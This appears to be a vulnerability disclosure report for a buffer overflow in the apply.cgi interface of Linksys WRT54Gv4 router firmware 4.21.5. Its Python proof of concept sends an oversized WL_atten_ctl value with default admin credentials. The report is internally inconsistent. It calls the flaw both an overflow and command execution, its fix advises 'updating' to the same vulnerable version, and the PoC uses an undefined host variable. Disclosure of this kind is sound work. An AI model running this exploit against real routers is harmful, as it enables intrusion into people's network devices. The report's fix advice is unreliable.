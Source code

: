 # CVE Report - Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Routers 

## Vulnerability Title

Buffer Overflow Vulnerability in FW_WRT54Gv4_4.21.5.000_20120220 Router. 

## Vulnerability Description

Linksys FW_WRT54Gv4 devices have a Buffer Overflow vulnerability in the CGl interface "apply.cgi",which allows remote attackers to execute arbitrary commands via parameter **WL_atten_ctl**  and **WL_atten_radio** passed to the "apply.cgi" binary through a POST request.



## POC

```python
import requests

url = "http://{ip}/apply.cgi"

headers = {
    "Host": ip,
    "Content-Length": "146",
    "Cache-Control": "max-age=0",
    "Authorization": "Basic YWRtaW46YWRtaW4=",
    "Accept-Language": "zh-CN",
    "Upgrade-Insecure-Requests": "1",
    "Origin": "http://172.17.0.4",
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
    "Accept-Encoding": "gzip, deflate, br",
    "Connection": "keep-alive"
}

data = {
    "WL_atten_bb": "1",
    "WL_atten_radio": "1",
    "WL_atten_ctl": "a"*90,
    "WL_delay":"1"
}

response = requests.post(url, headers=headers, data=data)

print("Status Code:", response.status_code)
print("Response Content:", response.text)

```



## Cause Analysis

The get_cgi function accepts external data. The user affects v5 by setting the WL_atten_ctl value. It enters system execution, resulting in a command execution vulnerability.

![image-20250226211642419](C:\Users\XiaoA\AppData\Roaming\Typora\typora-user-images\image-20250226211642419.png)

## Suggested Fix

It is recommended to update to the version FW_WRT54Gv4_4.21.5 of router to fix this vulnerability. 

